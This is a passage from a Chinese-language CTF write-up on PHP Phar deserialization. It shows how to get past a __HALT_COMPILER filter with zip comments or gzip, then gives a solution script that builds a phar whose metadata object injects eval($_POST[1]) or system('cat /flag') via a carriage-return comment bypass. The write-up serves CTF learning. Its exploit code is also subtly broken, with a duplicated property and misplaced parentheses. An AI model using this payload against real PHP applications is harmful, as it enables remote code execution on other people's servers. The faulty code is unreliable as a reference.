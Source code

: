 



### 3、绕过__HALT_COMPILER()过滤

>   因为PHP是通过这个来识别Phar文件，那么假如有如下过滤条件
>
>   ```c
>   if (preg_match("/HALT_COMPILER/i",$Phar){
>       die();
>   }
>   ```

#### 第一种绕过方式

>   将Phar文件的内容写到压缩包注释中，压缩为zip文件
>
>   ```php
>   <?php
>       $a = serialize($a);
>       $zip = new ZipArchive();
>       $res = $zip->open('phar.zip',ZipArchive::CREATE); 
>       $zip->addFromString('flag.txt', 'flag is here');
>       $zip->setArchiveComment($a);
>       $zip->close();    
>   ?>
>   ```
>
>   

#### 第二种绕过方式

>   将生成的Phar文件进行gzip压缩，压缩命令：`gzip test.phar`
>
>   ==因为压缩后同样也可以进行反序列==



## 7、解题

>   -   通过以上介绍很明显是Phar反序列化漏洞了，
>
>   -   不过destruct函数里面有过滤，`而且eval还加了一个#注释`
>       -   **那么绕过#可以使用换行【%0a】，但是换行被过滤掉了，然后可以想到使用回车【%0d】**
>       -   **但是cmd参数不会url解码，所以最终想到只能使用[` \r `]**
>   -   然后就阔以开始生成phar文件了

```php
<?php
highlight_file(__FILE__);

class Evil{
    // 到时候使用这个POST参数进行获取flag
    public $cmd ='\reval(\$_POST[1];)';
    public $cmd ='\rsystem('cat /flag');)';
}

$obj = new Evil();

$phar = new Phar('test.phar');
$phar -> startBuffering(); //开始缓冲 Phar 写操作
$phar -> setStub('GIF89a<?php __HALT_COMPILER();?>'); //设置stub，添加gif文件头

$phar ->addFromString('test.txt','test'); //要压缩的文件

$phar -> setMetadata($obj);  //将自定义meta-data存入manifest
```